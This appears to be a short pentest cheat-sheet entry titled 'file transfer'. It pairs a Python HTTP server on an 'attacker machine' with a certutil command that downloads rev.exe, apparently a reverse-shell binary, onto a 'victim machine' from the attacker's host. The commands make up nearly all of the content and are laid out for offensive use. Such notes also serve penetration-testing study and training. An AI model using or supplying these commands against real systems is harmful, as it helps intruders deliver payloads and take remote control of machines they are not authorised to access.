 # 2_file_transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine.
```shell
certutil -urlcache -f http://$me:8888/rev.exe rev.exe
```
